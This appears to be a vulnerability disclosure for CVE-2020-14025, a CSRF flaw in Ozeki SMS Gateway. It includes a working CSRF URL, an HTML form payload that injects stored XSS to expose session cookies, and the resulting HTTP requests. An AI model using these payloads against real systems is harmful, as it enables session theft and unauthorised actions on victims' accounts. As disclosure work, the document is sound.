 # CVE-2020-14025: Ozeki SMS Gateway Cross-Site Request Forgery

The Ozeki SMS Gateway software, versions 4.17.6 and below, does not contain any protections against CSRF attack.
<br/>
If an attacker manages to convince a victim user which is logged into the application to visit a site containing a malicious CSRF payload, this might trigger the victim's browser to send authenticated commands to the web application that may result in:
- Remote Code Execution by chaining multiple GET and/or POST CSRF requests
- Cross-Site Scripting (XSS)
- Etc.

### Proof Of Concept:

As a proof of concept, the following URL, which if visited by a logged in user, installs the voting application on behalf of the logged in user:
```
https://<IP>:9443/default?layout=MENUVIEW&MENU=USERS&MAIN=USERMAIN&mode=installwithusername&type=ozAppVoting.Main&useraccount=VotingApp
```

When the logged in user visited our attacker web page, the following HTTP request sent by the browser to the affected application:
```
GET /default?layout=MENUVIEW&MENU=USERS&MAIN=USERMAIN&mode=installwithusername&type=ozAppVoting.Main&useraccount=VotingApp HTTP/1.1
Host: <IP>:9443
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3835.0 Safari/537.36
Cookie: usrckenc=4ef***TRUNCATED***712
```

Thus, we were able to perform Installation of the Voting Application.
<br/>
<br />
Another proof of concept:<br />
The following HTML page, which if visited by a logged in user, injects a malicious stored JavaScript payload on behalf of the logged in user, an attacker being able to steal the victim's Session Cookie.
<br/>

CSRF Payload:
```
<html>   
	<body>   
		<form action="https://<IP>:9443/default" method="POST">       
			<input type="hidden" name="layout" value="MENUVIEW" />       
			<input type="hidden" name="MENU" value="ROUTINGMENU" />       
			<input type="hidden" name="MAIN" value="LISTMANAGEMENT" />       
			<input type="hidden" name="mode" value="addnow" />       
			<input type="hidden" name="listname" value="hey&lt;svg&#47;onload&#61;alert&#40;document&#46;cookie&#41;&gt;" />       
			<input type="submit" value="Submit request" />
		</form>
	</body>
</html>
```

Accessing the above page will generate the following request:
```
POST /default HTTP/1.1
Host: <IP>:9443
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3835.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 124
Cookie: usrckenc=4ef***TRUNCATED***712

layout=MENUVIEW&MENU=ROUTINGMENU&MAIN=LISTMANAGEMENT&mode=addnow&listname=hey%3Csvg%2Fonload%3Dalert%28document.cookie%29%3E
```

The payload being injected and executed in the victim session:
<img src="XSS%20via%20CSRF.png"/>
